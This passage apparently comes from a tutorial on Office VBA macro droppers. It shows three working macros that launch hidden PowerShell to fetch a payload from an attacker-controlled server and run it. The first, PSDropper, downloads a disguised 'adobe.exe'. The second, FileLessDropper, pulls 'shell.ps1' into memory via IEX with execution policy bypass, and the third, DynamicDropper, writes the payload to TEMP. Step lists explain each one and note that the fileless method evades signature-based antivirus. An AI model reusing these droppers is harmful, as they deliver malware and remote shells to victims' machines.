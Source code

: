 ```
Sub PSDropper()
    Dim dropper As Object
    Set dropper = CreateObject("WScript.Shell")
    dropper.Run "powershell.exe -Command ""Invoke-WebRequest -Uri 'http://<ip>:8080/adobe.exe' -OutFile 'C:\Users\Public\adobe.exe'; Start-Process 'C:\Users\Public\adobe.exe'""", 0 ,False
End Sub
```

**Step-by-Step Execution**

1. **Creates an instance of** `WScript.Shell` for executing system commands.
2. **Runs PowerShell** with `Invoke-WebRequest` to **download a payload (**`adobe.exe`**)** from `http://<ip>:8080/`[.](http://192.168.2.24:8080/.)
3. **Saves the payload** to `C:\Users\Public\adobe.exe`(common folder for persistence).
4. **Executes the downloaded file** using `Start-Process`.
5. **Runs in hidden mode** (`0` parameter ensures no visible console window).

**Use Case**: This method **writes a payload to disk** before execution.

* * *

#### 3. `FileLessDropper()` - Fileless PowerShell Execution

```
Sub FileLessDropper()
    Dim psdropper As Object
    Set psdropper = CreateObject("WScript.Shell")
    psdropper.Run "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command ""IEX(New-Object Net.WebClient).DownloadString('http://<ip>:8080/shell.ps1')""" ,0,False
End Sub
```

**Step-by-Step Execution**

1. **Creates a** `WScript.Shell` **object** to execute PowerShell.
2. **Runs PowerShell in bypass mode** (`-ExecutionPolicy Bypass` avoids script execution restrictions).
3. **Uses** `IEX (Invoke-Expression)` **to execute a remote script** directly in memory.
4. **Fetches and executes** `shell.ps1` **from** `http://<ip>:8080/`[.](http://192.168.2.24:8080/.)
5. **No files are written to disk** (entire execution remains in memory).

**Use Case**:

- Completely **fileless execution**.
- Harder to detect by **signature-based AVs**.
- **Common in modern malware and penetration testing frameworks** (e.g., Metasploit, Empire, Cobalt Strike).

* * *

#### 4. `DynamicDropper()` - Flexible Payload Storage Location

```
Sub DynamicDropper()
    Dim dropper As Object
    Set dropper = CreateObject("WScript.Shell")
    downloadPath = Environ("TEMP") & "\adobe.exe"
    dropper.Run "powershell.exe -Command ""Invoke-WebRequest -Uri 'http://<ip>:8080/adobe.exe' -OutFile '" & downloadPath & "' ; Start-Process '" & downloadPath & "'""" ,0,False
End Sub
```
